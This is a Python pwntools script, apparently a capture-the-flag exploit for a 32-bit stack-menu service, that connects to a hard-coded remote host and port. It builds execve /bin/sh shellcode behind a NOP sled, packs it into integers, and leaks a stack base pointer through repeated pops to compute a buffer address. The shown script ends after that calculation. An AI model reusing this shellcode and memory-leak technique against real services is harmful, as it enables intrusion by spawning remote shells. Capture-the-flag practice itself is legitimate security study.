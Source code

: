 ```python pwn3.py
#!/usr/bin/env python

from pwn import *
import sys
import time
import numpy

HOST = "52.69.163.194"
PORT = 3333
ELF_PATH = ""
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

r = remote(HOST, PORT)
#r = process("./pwn3")

shellcode_byte = [ 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0xb0, 0x0b, 0x31, 0xc9, 0x31, 0xd2, 0xcd, 0x80 ]

# constructing shellcode data
shellcode = [0x90] * 9
for c in shellcode_byte:
	shellcode.append(c)

payload = []
cur = 0
for index, val in enumerate(shellcode):
	now = index % 4
	cur |= val << (now*8)
	if now == 3:
		payload.append(numpy.int32(cur))	
		cur = 0

def pop(r):
	r.sendline("2")
	r.recvuntil("Top item is: ")
	item = r.recvuntil("\n").strip()
	n = numpy.int32(int(item, 16))
	return n

def push(r, num):
	r.sendline("1")
	r.recvuntil("number:\n")
	r.sendline(str(num))

if __name__ == "__main__":

	temp = []

	# leaking ebp
	for i in xrange(4):
		r.recvuntil("4. exit\n")
		temp.append(pop(r))
	
	# calculate buffer address & address for ecx
	buf_addr = numpy.int32(temp[3] - 0x60)
```